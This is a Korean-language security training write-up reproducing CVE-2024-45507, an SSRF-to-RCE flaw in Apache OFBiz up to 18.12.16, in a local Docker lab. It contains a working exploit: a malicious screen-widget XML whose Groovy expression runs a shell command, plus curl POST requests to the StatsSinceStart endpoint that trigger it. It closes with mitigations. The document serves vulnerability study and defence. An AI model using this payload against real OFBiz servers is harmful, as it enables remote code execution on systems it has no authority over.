




> 화이트햇 스쿨 4기 - 김태은 [@VeryBigsilver](https://github.com/VeryBigsilver/)
>
> Apache Ofbiz (CVE-2024-45507) 


## 0: 요약
Apache OFBiz ~18.12.16 환경에서 발생하는 SSRF, code injection 취약점  
CVSS 9.8 (critical)
1. `StatsSinceStart.groovy` 스크립트에서 SSRF 취약점 발생
2. 사용자 지정 원격 xml을 OFBiz가 신뢰해 widget으로 그대로 파싱
	이때, xml 안의 groovy 표현식이 평가되어 SSRF가 RCE로 이어짐  


## 1: 취약 환경
다음 조건이 갖춰지면 취약점이 발생할 수 있다.
- Apache OFBiz ~18.12.16 버전 사용
- 네트워크를 통해 http 요청 전송 가능

## 2: 환경 구성
#### 1. 취약 ofbiz 설치
먼저 ofbiz git을 clone 한 다음 git checkout으로 취약 버전인 18.12.15로 내림
```
git clone https://github.com/apache/ofbiz-framework.git
cd ofbiz-framework
git checkout release18.12.15
git tag | grep 18.12.15
```

ofbiz 설치 및 버전 다운

#### 2. 페이로드 저장
SSRF를 응용한 RCE까지 구현하기 위해 다음 페이로드를 생성
```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">

    <screen name="StatsDecorator">
        <section>
            <actions>
                <set value="${groovy:'touch /tmp/success'.execute();}"/>
            </actions>
        </section>
    </screen>
</screens>
```
해당 payload.xml 파일을 /server에 저장
- `<set value="${groovy:'touch /tmp/success'.execute();}"/>`의 groovy를 ofbiz가 검증 없이 그대로 해석하기 때문에 RCE 가능

#### 3. docker 관련 파일 설정
- Dockerfile
	ofbiz와 호환성을 위해 java 11을 사용
	8443: ofbiz 서버용 포트
	9999: SSRF 검증용 포트
	80: 악성 xml 서빙용 포트
```Dockerfile
FROM eclipse-temurin:11-jdk

ENV DEBIAN_FRONTEND=noninteractive

RUN apt-get update && \
    apt-get install -y unzip python3 netcat-openbsd && \
    rm -rf /var/lib/apt/lists/*

COPY ofbiz /opt/ofbiz
COPY server /www/server
COPY start.sh /start.sh

WORKDIR /opt/ofbiz

RUN chmod +x gradlew
RUN chmod +x /start.sh

EXPOSE 8443
EXPOSE 9999
EXPOSE 80

CMD ["/start.sh"]
```
- docker-compose.yml
	8443 포트에 ofbiz 서비스 동작
	(나머지 검증용 서버는 docker 내부에서 돌릴 거라 따로 설정 안함)
```Dockerfile
services:
  ofbiz:
    build: .
    ports:
      - "8443:8443"
```
- start.sh
	악성 xml 서버와 ofbiz 서버를 동시에 편리하게 열기 위해 사용
	(위 Dockerfile에서 start.sh CMD 사용)
```sh
#!/bin/bash

cd /www
python3 -m http.server 80 &

cd /opt/ofbiz
exec ./gradlew ofbiz
```

## 3: 재현 절차(PoC) & 실행 결과
### 기본 환경 설정
```
docker compose up --build
```
시간 약간 소요됨 (약 5분)

해당 화면 뜰 때까지 대기, 이후 d를 눌러 터미널로 돌아오기

### SSRF
1. docker 내부로 들어가서
```
docker exec -it 0ffeb87d645d /bin/bash
```

2. SSRF 검증용 9999 포트 열어놓기
```
nc -lvkp 9999
```

3. docker 외부 새로운 창에서 다음 POST 전송
	8443포트에 열려있는 ofbiz 서버에 POST
	이때, `statsDecoratorLocation=http://127.0.0.1:9999`에서 SSRF 발생
```
curl -k -X POST "https://localhost:8443/webtools/control/forgotPassword/StatsSinceStart" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "statsDecoratorLocation=http://127.0.0.1:9999"
```

해당 과정 수행 시

127.0.0.1:9999에 ofbiz 서버인 Java/11이 새로운 http 요청을 전송하는 것을 알 수 있다.

### SSRF를 이용한 RCE
```
curl -k -X POST "https://localhost:8443/webtools/control/forgotPassword/StatsSinceStart"   -H "Content-Type: application/x-www-form-urlencoded"   --data "statsDecoratorLocation=http://127.0.0.1/server/payload.xml"
```


해당 POST를 보낸 경우,
SSRF로 인해 ofbiz서버는 http://localhost/ofbiz/payload.xml을 참조하고,
payload.xml 안에 있는 `${groovy:'touch /tmp/success'.execute();}`로 인해
RCE가 수행되어 success라는 파일이 새로 만들어 진 것을 볼 수 있다.  


## 4: 대응 방안
1. apache OFBiz 최신 버전 다운로드 (18.12.16 이후 버전)
	https://ofbiz.apache.org/download.html
2. 외부에서 `/webtools` 접근 제한
3. WAF를 통한 SSRF 패턴 차단